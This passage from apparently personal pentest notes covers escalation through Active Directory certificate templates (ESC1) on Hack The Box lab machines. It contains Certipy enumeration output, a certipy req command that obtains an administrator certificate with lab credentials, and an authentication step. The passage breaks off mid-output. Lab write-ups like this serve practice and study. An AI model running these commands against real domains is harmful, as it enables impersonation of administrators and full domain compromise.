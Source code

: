           Object Control Permissions
            Owner                           : SEQUEL.HTB\Administrator
            Write Owner Principals          : SEQUEL.HTB\Domain Admins
                                              SEQUEL.HTB\Enterprise Admins
                                              SEQUEL.HTB\Administrator
            Write Dacl Principals           : SEQUEL.HTB\Domain Admins
                                              SEQUEL.HTB\Enterprise Admins
                                              SEQUEL.HTB\Administrator
            Write Property Principals       : SEQUEL.HTB\Domain Admins
                                              SEQUEL.HTB\Enterprise Admins
                                              SEQUEL.HTB\Administrator
        [!] Vulnerabilities
          ESC1                              : 'SEQUEL.HTB\\Domain Users' can enroll, enrollee supplies subject and template allows client authentication
    ```
    
    `certipy req -u ryan.cooper -p NuclearMosquito3 -target sequel.htb -upn administrator@sequel.htb -ca sequel-DC-CA -template UserAuthentication`
    
    ```
    └──╼ [★]$ certipy req -u ryan.cooper -p NuclearMosquito3 -target sequel.htb -upn administrator@sequel.htb -ca sequel-DC-CA -template UserAuthentication -debug
    Certipy v4.8.2 - by Oliver Lyak (ly4k)
    
    [+] Trying to resolve 'sequel.htb' at '1.1.1.1'
    [+] Trying to resolve '' at '1.1.1.1'
    [+] Generating RSA key
    [*] Requesting certificate via RPC
    [+] Trying to connect to endpoint: ncacn_np:10.129.228.253[\pipe\cert]
    [+] Connected to endpoint: ncacn_np:10.129.228.253[\pipe\cert]
    [*] Successfully requested certificate
    [*] Request ID is 13
    [*] Got certificate with UPN 'administrator@sequel.htb'
    [*] Certificate has no object SID
    [*] Saved certificate and private key to 'administrator.pfx'
    ```
    
    `certipy auth -pfx administrator.pfx`
    
    ![Untitled](Privelige%20excalation%20959f3e5c95f04c0cb21f30f9a00bb8c7/Untitled%209.png)
    
- Certipy 2
    
    `certipy find -u svc_ldap@authority.htb -p 'lDaP_1n_th3_cle4r!' -dc-ip
    10.10.11.222 -vulnerable`
    
    ```
    certipy find -u svc_ldap@authority.htb -p 'lDaP_1n_th3_cle4r!' -dc-ip
    10.10.11.222 -vulnerable
    Certipy v4.8.2 - by Oliver Lyak (ly4k)
    [*] Finding certificate templates
    [*] Found 37 certificate templates
    [*] Finding certificate authorities
    [*] Found 1 certificate authority
    [*] Found 13 enabled certificate templates
    [*] Trying to get CA configuration for 'AUTHORITY-CA' via CSRA
    A section of the outputted txt file gives us some information about certificate templates and
    more specifically about a template called CorpVPN .
    [!] Got error while trying to get CA configuration for 'AUTHORITY-CA' via CSRA:
    CASessionError: code: 0x80070005 - E_ACCESSDENIED - General access denied error.